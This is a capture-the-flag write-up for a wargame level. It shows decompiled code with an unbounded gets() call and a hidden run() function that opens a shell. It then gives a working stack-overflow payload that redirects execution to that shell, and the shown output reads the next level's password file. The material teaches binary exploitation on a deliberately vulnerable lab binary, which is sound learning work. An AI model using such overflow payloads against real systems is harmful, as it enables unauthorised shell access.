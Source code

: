 ## Step 1: Static & Dynamic Analysis

```c
08048444  int32_t run()
08048444  {
0804846d      fwrite("Good... Wait what?\n", 1, 0x13, stdout);
0804847f      return system("/bin/sh");
08048444  }
```

```c
08048480  int32_t main(int32_t argc, char** argv, char** envp)
08048480  {
08048496      void buf;
08048496      return gets(&buf);
08048480  }
```

### Explanation
The goal is to overwrite the return address in the stack with the address of the `run()` function (`0x08048444`), causing the program to execute the shell.

1. Determine the buffer size:
   - The size of `buf` (the buffer being overflowed) is 76 bytes before the saved return address.

2. Craft the payload:
   - Fill the buffer with 76 'A's to reach the return address.
   - Overwrite the return address with the address of `run()` (`0x08048444`), written in little-endian format as `'\x44\x84\x04\x08'`.

## Step 2: Exploit the Binary

```bash
python -c "print(('A' * 76) + '\x08\x04\x84\x44'[::-1])" > /tmp/exploit
cat /tmp/exploit - | ./level1
"Good... Wait what?"
% cd ../level2
% cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

The `cat /tmp/exploit - | ./level1` command sends the exploit payload to the program and keeps the input stream open for further interaction. The `-` ensures that after the payload is sent, the shell remains interactive, allowing you to execute commands.

Without `-`, the input stream would terminate after sending the payload, closing the shell immediately.

[StackOverflow: Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)

